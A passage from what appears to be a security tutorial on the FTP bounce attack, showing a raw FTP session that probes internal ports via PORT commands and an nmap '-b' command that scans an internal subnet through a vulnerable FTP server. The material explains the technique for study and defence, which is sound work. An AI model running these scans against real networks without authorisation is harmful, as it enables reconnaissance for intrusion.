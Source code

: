 ```bash
USER A
331 Username okay, awaiting password
PASS A
230 User logged in, proceed
PORT 172,19,0,100,0,1234
200 The requested action has been successfully completed 
LIST
150 File status okay; about to open data connection // We understood port 1234 is open
226 Closing data connection 
PORT 172,19,0,100,0,4444
200 The requested action has been successfully completed 
LIST
425 No connection established // We understood port 4444 is closed
```

For example, an attacker using this vulnerability can scan ports in the internal network systems by using the following command:

```bash
nmap -v -p 21,22,445,80,443 -b username:password@172.19.0.100 192.168.0.1/24
```

![Unsuccess FTP Bounce scan example output.](/assets/img/pitcures/ftp/ftp6.png)

Unsuccess FTP Bounce scan example output.

![Success FTP Bounce scan example output.](/assets/img/pitcures/ftp/ftp7.png)

Success FTP Bounce scan example output.

## Specific Vulnerabilities and Exploits, PoC's and Nmap Scripts
